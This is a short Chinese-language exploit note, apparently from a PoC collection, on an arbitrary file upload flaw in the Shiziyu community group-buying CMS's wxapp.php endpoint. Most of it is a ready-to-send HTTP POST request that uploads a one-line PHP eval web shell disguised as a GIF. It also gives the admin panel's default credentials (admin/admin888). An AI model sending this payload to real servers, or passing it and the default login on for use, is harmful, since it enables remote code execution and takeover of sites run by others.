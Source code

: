 # 狮子鱼社区团购系统 wxapp.php 文件上传漏洞


狮子鱼社区团购系统CMS wxapp.php文件上传漏洞，可上传任意文件，导致getshell.

后台默认密码为：admin/admin888

源码下载地址：http://cr3.9pj8m.com/shiziyushequtuangouyuanma.zip

修改数据库配置文件：

* Modules/Common/Conf/db.php
* Modules/Seller/Conf/db.php

poc：

```
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
...

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="123123.php"
Content-Type: image/gif

<?php @eval($_POST['a']);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```

参考：

https://poc.shuziguanxing.com/#/publicIssueInfo#issueId=4017

https://forum.ywhack.com/thread-115578-1-2.html